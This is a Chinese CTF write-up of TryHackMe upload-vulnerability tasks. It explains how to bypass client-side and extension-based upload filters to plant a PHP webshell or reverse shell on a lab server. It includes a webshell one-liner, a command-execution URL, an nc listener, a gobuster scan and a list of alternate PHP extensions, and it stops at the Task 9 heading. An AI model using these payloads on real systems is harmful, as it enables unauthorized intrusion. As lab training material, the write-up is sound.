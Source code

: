 

# 0516文件上传绕过（client-side）

https://tryhackme.com/room/uploadvulns的Task 7

已知http://java.uploadvulns.thm（PS：需要在/etc/hosts中设置IP和域名对应）只存在client-side的文件上传过滤，目标是得到该服务器/var/www/下的flag



打开网页如下：

![image]({{ site.url }}{{ site.baseurl }}/assets/images/image-20220516095801615.png)



因为是client-side的过滤故查看源代码，发现非png类型文件不可上传

![image-20220516100025617](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516100025617.png)

整个流程是用户请求网页，然后服务器返回网页信息（html等等信息），其中包含了上面用于过滤文件类型的JavaScript代码。然后点击“select file”打开文件后，过滤代码就在用户端运行。点击上传，文件就传输到服务器。

![image-20220516102207195](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516102207195.png)

所以我们可以用两种方法来打破client-side过滤的机制：

1. 在服务器返回网页信息的时候截胡，把过滤代码删掉
2. 在过滤代码执行的时候处理，上传一个png后缀文件，但在执行结果返回前把文件类型改回来

可以用webshell或者reverse shell：

1. webshell我用的是以下代码

   ```
   <?php
   	echo system($_GET["cmd"]);
   ?>
   ```

2. reverse shell用的是kali的/usr/share/webshells/php/php-reverse-shell.php（记得改文件里的$IP为攻击机的IP）

以上的2X2种方法可以随便组合

## 方法一：删过滤代码+webshell

打开网页代理，打开burpsuite，选择response to this request来显示服务器返回的包（默认情况下不显示）。

![image-20220516105740620](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516105740620.png)

点击forward，收到返回的包，删除过滤的js代码

![image-20220516110033263](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516110033263.png)

点击forward后，正常上传文件即可

问题是不知道webshell.php在哪，所以用gobuster扫一下文件目录：

```
gobuster dir -u http://java.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

找到一个可疑的文件夹/images，访问这个文件夹：http://java.uploadvulns.thm/images果然在里面，所以只要访问

```
http://java.uploadvulns.thm/images/webshell.php?cmd=cat /var/www/flag.txt
```



## 方法二：修改文件类型+reverse shell

把php-reverse-shell.php改成shell.png(改成shell只是懒得打，但是后缀一定要改)

![image-20220516110903950](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516110903950.png)

点击“upload”，修改文件类型，点击forward成功上传![image-20220516111059415](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516111059415.png)

也是一样的用gobuster找到文件上传到何处

攻击机这边打开netcat的listener，然后访问

```
nc -lvnp 1234(端口号)
```

获得reverse shell，得到flag

![image-20220516111412502](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516111412502.png)



# 0516文件上传绕过（server-side）-文件拓展名过滤

https://tryhackme.com/room/uploadvulns的Task 8

后缀改成php5就可以上传了，以下是一些很少使用但服务器或许可以识别的Php后缀名，一个个试出来的：.php3, .php4, .php5, .php7, .phps, .php-s,  .pht .phar。

![image-20220516152831391](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516152831391.png)

# 0516文件上传绕过（server-side）-magic numbers过滤

https://tryhackme.com/room/uploadvulns的Task 9

